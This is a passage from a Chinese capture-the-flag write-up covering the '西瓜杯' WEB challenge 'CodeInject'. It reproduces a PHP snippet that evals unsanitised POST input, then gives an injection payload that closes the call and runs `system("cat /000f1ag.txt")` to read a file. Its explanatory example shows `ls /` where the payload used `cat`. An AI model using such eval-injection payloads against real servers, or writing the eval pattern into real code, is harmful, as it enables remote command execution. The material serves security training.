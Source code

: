 <img src="assets/img/2024/1/image-20240525172639304.png" alt="image-20240525172639304" style="zoom: 50%;" />

nl，*后查看页面源代码就能得到flag。

------



## 西瓜杯

------

### WEB

------

#### CodeInject

```php
<?php

#Author: h1xa

error_reporting(0);
show_source(__FILE__);

eval("var_dump((Object)$_POST[1]);");
```

直接闭合即可，post传`1=1);system("cat /000f1ag.txt");//`，即变成`eval("var_dump((Object)1);system("ls /");//;");`

------



